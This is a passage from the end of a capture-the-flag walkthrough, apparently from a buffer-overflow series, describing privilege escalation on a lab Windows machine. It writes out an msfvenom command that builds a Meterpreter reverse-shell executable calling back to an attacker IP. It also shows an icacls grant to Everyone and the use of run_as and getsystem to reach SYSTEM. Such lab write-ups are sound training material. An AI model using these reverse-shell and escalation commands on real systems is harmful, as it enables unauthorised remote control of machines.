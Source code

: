 Now, the final step is to see what kind of privileges the user, mayor has. Let's create another payload and upload it to the target machine, then we can try to run it as mayor:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6500 -f exe -o rTCP.exe
```
```bash
upload rTCP.exe .
```
We also need to make sure that rTCP.exe can be run by everyone, let's use icacls for that:
```bash
icacls rTCP.exe /grant Everyone:(F)
```
Now, we are ready to configure our multi handler first and then run_as modules:

![Final Exp](finalRootExp.png)
![Runas](msfconsolerunas.png)

After running the last module, we'll receive a meterpreter session and if we check that sessions and user id, we'll see that we have admin privileges:

![Admin User](adminUser.png)

Now, we can go to Desktop and look for the root flag:

![Root Flag](rootFlag.png)

Since we are admin, we can try to become the system by using ```getsystem``` command:

![Getsystem](getsystem.png)

That was a long journey and I hope you enjoyed this walkthrough.
Thank you for reading.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
